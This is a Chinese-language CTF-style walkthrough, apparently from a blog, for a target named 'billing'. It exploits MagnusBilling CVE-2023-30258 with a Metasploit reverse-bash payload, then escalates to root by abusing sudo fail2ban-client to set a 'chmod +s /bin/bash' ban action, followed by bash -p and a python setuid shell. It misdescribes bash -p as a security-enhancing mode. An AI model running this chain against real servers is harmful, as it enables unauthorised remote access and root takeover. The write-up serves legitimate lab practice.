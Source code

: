 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
```bash
id
```
查看当前用户权限
查看当前进程
```
ps -aux | grep fail
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。

使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。[Fail2Ban – Linux 权限提升 - Juggernaut-sec](https://juggernaut-sec.com/fail2ban-lpe/#What_is_Fail2Ban)


`/etc/fail2ban/jail.local`，有这样的参数

|     |                                                                                                                                                                                                                    |
| --- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
|     | `[asterisk-iptables]`<br>enabled  = true<br>filter   = asterisk<br>action   = iptables-allports`[name=ASTERISK, port=all, protocol=all]`<br>logpath  = /var/log/asterisk/messages<br>maxretry = 5<br>bantime = 600 |
|     |                                                                                                                                                                                                                    |

```
sudo /usr/bin/fail2ban-client status
```
查看当前的防火墙规则
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。

关键命令
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
这段命令会启动`fail2ban-client`设置`asterisk-iptables`规则的`action`项，在action项中添加actionban，这条命令会在执行恶意操作的时候尝试执行

```bash
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```
查看`asterisk-iptables`的`action`项的actionban配置的内容

现在，我们可以手动禁止 **asterisk-iptables** jail 的 IP 地址，它将执行 action 中定义的命令。
```bash
iptables-allports-ASTERISK
```

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
```
这条命令的作用是将 IP 地址 `1.2.3.4` 添加到 `asterisk-iptables` jail 的禁止列表中。从而触发actionban中的降shell权的操作

```bash
/bin/bash -p
```
- **`-p` 选项**：启用特权模式（Privileged Mode）。
- 
- **特权模式的作用**：
    - **忽略启动文件**：在特权模式下，Bash 会忽略用户的启动文件（如 `.bashrc`、`.bash_profile` 等），直接进入交互模式。
    - **增强安全性**：这种模式通常用于需要更高安全性的场景，例如在某些受限环境中运行脚本时，避免加载用户自定义的配置文件，从而减少潜在的安全风险。


```bash
python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```
#### **`python3 -c`**
- **作用**：使用 Python 3 解释器执行一行代码。
- **`-c`**：从命令行参数中读取 Python 代码并执行。
#### **`import os; import pty`**
- **`import os`**：导入 Python 的 `os` 模块，用于执行操作系统相关的操作。
- **`import pty`**：导入 Python 的 `pty` 模块，用于创建伪终端。

#### **`os.setuid(0)`**
- **作用**：将当前进程的用户 ID 设置为 0（root 用户）。
- **安全风险**：如果当前进程已经具有 root 权限，这将使后续操作以 root 权限执行。如果当前进程没有 root 权限，这将引发权限错误。

#### **`os.setgid(0)`**
- **作用**：将当前进程的组 ID 设置为 0（root 组）。
- **安全风险**：与 `os.setuid(0)` 类似，这将使后续操作以 root 组权限执行。

#### **`pty.spawn("/bin/bash")`**
- **作用**：启动一个新的交互式 Bash shell。
- **安全风险**：如果前面的 `os.setuid(0)` 和 `os.setgid(0)` 成功执行，这个命令将以 root 权限启动一个交互式 shell，攻击者可以利用这个 shell 执行任意命令。


这条命令是一个非常危险的命令，它试图以 root 权限启动一个交互式的 Bash shell。
